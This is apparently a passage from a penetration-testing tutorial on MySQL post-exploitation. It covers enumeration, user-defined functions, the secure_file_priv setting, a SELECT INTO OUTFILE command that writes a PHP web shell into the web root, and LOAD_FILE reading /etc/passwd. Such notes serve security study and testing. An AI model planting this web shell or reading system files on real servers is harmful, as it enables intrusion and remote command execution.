 `show databases -> use database -> show tables -> select data`

>Look for user-defined functions in MySQL
{: .prompt-warning }
```bash
mysql -u user -p<password>-h $target 
```

### MySQL Command Execution

MySQL supports User Defined Functions which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution inthis GitHub repository. 

It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be ableto use it.

### MySQL Write File

MySQL does not have a stored procedure like xp_cmdshell, but we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose MySQL operates on a PHP-based web server or other programming languages like ASP.NET.

If we have the appropriate privileges, we can attempt to write a file using SELECT INTO OUTFILE in the webserver directory. Then we can browse to the location where the file is and execute our commands.

Here is an example:
```sql 
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

```
But, we better look for `secure_file_priv` global variable as it affect the import/export operations achieved by:

1- `LOAD DATA`
2- `SELECT ... INTO OUTFILE`
3- `LOAD_FILE()`

There are three possible values the variable can take:

1- Empty: not secure.
2- Existing Directory: we can do import/export only with the specified directory.
3- NULL = Imports/exports are disabled.

```sql 
mysql> show variables like "secure_file_priv";
```


### MySQL Read Local Files

```sql
mysql> select LOAD_FILE("/etc/passwd");
```


## MSSQL
